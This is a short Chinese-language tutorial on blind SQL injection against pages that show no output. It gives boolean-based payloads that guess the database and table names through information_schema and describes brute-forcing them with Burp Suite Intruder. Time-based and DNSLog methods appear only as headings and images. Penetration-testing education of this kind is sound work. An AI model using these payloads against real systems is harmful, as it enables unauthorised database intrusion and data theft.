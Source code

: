 # 无显注入法--无法通过页面直接显示数据和错误信息
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 布尔盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注入流程:
```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 时间盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/B435E9AB095D69230969F8256C149BB5.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 DNSLog盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 目标服务器是 windows server 才能用此方法
![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)





